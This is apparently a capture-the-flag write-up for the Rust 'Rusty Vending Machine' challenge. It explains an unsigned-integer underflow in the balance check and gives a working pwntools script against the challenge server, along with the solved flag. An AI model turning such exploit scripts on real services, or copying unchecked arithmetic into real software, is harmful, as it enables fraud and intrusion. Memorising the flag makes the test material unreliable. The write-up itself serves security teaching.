



# [PWN] Rusty Vending Machine
## Description
Deciding to touch some grass, you took a walk in the forest. In the distance, you notice something interesting: In the dense foliage, there is an old and rusty but working vending machine. You approach it...

Note: the binaries are compiled with cargo build --release --target x86_64-unknown-linux-musl

Author: Taiz2000

nc challs.nusgreyhats.org 35125

## The Program
When we run the program, we are greeted with the following output:



We are given a balance of 100 coins, and are presented with the following options:
1. Insert Coin (use 1 coin)
2. Insert Notes (buy goods)

After fiddling around with the program for a bit, the following can be observed:
1. We can only insert a coin **once**.
2. We cannot buy goods that costs more than our balance.
3. We get kicked out of the netcat session after a while (this suggests a script is needed).

## Code Analysis
*This was my first time reading Rust code, and it wasn't too bad.*

Looking around the code, I was able to validate that we indeed can only insert a coin once:

```rust
1 => {
    if coin_eaten {
        slow_print("The machine already ate your coin, don't do it again ._.");
    } else {
        slow_print("And.... nothing happens. The machine ate your coin :((");
        balance = balance - 1;
        coin_eaten = true;
    }
}
```

This is simply due to the `coin_eaten` variable being set to `true` after we insert a coin :)

The rest of the code did not yield any interesting information as they were pretty standard stuff - if you have enough balance, "buy" the good and subtract the amount the good costs from your balance.

However, if we look more closely at the types assigned to the variables, we can infer that our balance is of a `u32` type, which is unsigned.

```rust
let mut balance: u32 = 100; // Free money for you at the start :)
```

This means that as long as we somehow achieve a negative balance, the value will wrap around and yield a large positive number instead due to **integer underflow**.

## Solving the Challenge
Remember that we know the following:
1. We cannot purchase goods that we cannot afford.
2. We can insert a coin (-1 coin) **once**.

Therefore, the only way to achieve our goal of attaining a negative balance is to use up our entire balance of 100, before inserting a (non-existent) coin to subtract 1 from our balance of 0 to get (supposedly), -1. All that is left is to do some basic maths:

"We are given a starting balance of 100 coins. A Potted Plant costs 13 coins while a Mystery Pizza costs 11 coins. What quantity of each item do we need to purchase in order to fully use up our balance?"

The answer will be: `6 Potted Plants and 2 Mystery Pizzas`. Did you get it? ( ͡° ͜ʖ ͡°)

Here is the solution if you did not manage to obtain the answer:



Now, remember that we cannot maintain the netcat connection for too long as we will get kicked. So all that is left is to make a simple script using `pwntools`:

```python
from pwn import *

def solve():
    conn = remote('challs.nusgreyhats.org', 35125)
    
    conn.recvuntil(b'(0) Leave')
    
    # Buy 6 Potted Plants (13 coins x 6 = 78 coins)
    for _ in range(6):
        conn.sendline(b'2')
        conn.sendline(b'1')
        conn.recvuntil(b'(0) Leave')
    
    # Buy 2 Mystery Pizzas (11 coins x 2 = 22 coins)
    for _ in range(2):
        conn.sendline(b'2')
        conn.sendline(b'2')
        conn.recvuntil(b'(0) Leave')
    
    # Achieve negative balance (integer underflow)
    conn.sendline(b'1')
    conn.recvuntil(b'(0) Leave')
    
    # Buy the flag
    conn.sendline(b'2')
    conn.sendline(b'3')
    
    flag = conn.recvall().decode()
    print(flag)
    conn.close()

if __name__ == '__main__':
    solve()
```

Run the script and we will get the flag.



**Flag:** `grey{bUt_h3y_a_f1aG_1s_4_Fl4g!}`

Script: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Greyhats%20Welcome%20CTF%202025/Rusty%20Vending%20Machine/solve.py)